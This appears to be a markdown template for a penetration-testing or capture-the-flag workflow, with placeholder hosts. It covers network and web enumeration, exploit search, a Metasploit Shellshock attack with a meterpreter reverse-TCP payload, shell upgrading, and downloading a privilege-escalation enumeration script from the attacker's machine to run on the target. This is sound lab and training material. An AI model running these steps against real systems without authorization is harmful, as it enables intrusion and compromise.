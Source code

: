 # tempalte, flow

```sh
remote-host (ip): <rhostslot>
local-host (ip): <lhostslot>
```

## Summary

+ example

## prev enum

```sh
sudo nmap -sS -sC -sV -oA ./nmap/full_sS -O -p- <rhostslot>
  # rename-tab
sudo vim /etc/hosts
<rhostslot>    <name>
```

- nc

```sh
nc -v <rhostslot> <port>
nc -vC <rhostslot> <port>
```

## web enum

### dns recon

```sh
nslookup
  # AD, find DC, etc.

# try zone transfer
host -l <rhostslot> <dnsServer>
dnsrecon -d <rhostslot> -t axfr
  # dnsrecon -d megacorpone.com -t axfr
```

### gobuster

```sh
dict="/usr/share/wordlists/dirb/common.txt"
ls -lah $dict                                    # 36KB
gobuster dir -u http://<rhostslot>/ -w $dict -t 20 -e -x php,asp,json,aspx
  # 5min
  # find /cgi-bin/ (status 403)

gobuster dir -u http://<rhostslot>/cgi-bin/ -w $dict -t 20 -e -x cgi,sh,pl,py,rb,php
  # 5min
  # find /user.sh (status 200)
```

## exploit (user shell)

### searchsploit

```sh
search keywords
searchsploit keywords
```

```sh
cdee
cp /usr/share/exploitdb/exploits/example ~/assets/example/temp.php
cda
```

### example-vector

### interactive shell

```sh
python -c 'import pty; pty.spawn("/bin/bash")'
  # C-z to background the shell
stty raw -echo; fg
```

## exploit (root)

### post enum

```sh
ps aux
sudo -l
```

### privilege escalation

```sh
```

## msf

```msfconsole
msf> search <keywords>
  # 2  exploit/multi/http/apache_mod_cgi_bash_env_exec      2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
msf> use 2
msf> show advanced
msf> show options
msf> set RHOSTS <rhostslot>
msf> ...

msf> show payloads
  # 14 payload/linux/x86/meterpreter/reverse_tcp                          normal  No     Linux Mettle x86, Reverse TCP Stager
msf> set payload 14

msf> run -j
  # meterpreter user shell
```

## util

+ rhost

```sh
wget <lhostslot>:8000/linenum.sh -O /tmp/linenum.sh
bash /tmp/lineum.sh > /tmp/linenumOut.md

python -m SimpleHTTPServer 8000 /tmp
```

+ lhost

```sh
wget <rhostslot>:8000/linenumOut.md
```
